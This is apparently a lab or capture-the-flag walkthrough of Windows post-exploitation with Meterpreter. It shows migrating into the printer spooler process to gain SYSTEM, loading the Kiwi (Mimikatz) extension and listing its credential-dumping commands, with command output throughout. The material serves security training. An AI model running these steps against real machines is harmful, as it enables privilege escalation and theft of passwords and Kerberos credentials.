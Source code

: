 ```shell
 2876  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2892  1292  powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
 2900  2856  dinotify.exe          x64   1        Dark-PC\Dark                  C:\Windows\System32\dinotify.exe
 2960  2512  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
```

In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

- ``spoolsv.exe``

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 
Migrate to this process now with the command `migrate -N PROCESS_NAME`

```shell
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2892 to 1376...
[*] Migration completed successfully.
```

Let's check what user we are now with the command `getuid`. What user is listed?

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)

```shell
meterpreter > load kiwi
Loading extension kiwi...
  .## ## #.   mimikatz 2.2.0 20191125 (x64/windows)
 .##  ^ ## .  "A La Vie, A L'Amour" - (oe.eo)
 ##  / \ ##   /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ##  \ / ##        > http://blog.gentilkiwi.com/mimikatz
 '##  v ## '        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '## ## #'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 

```shell
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
```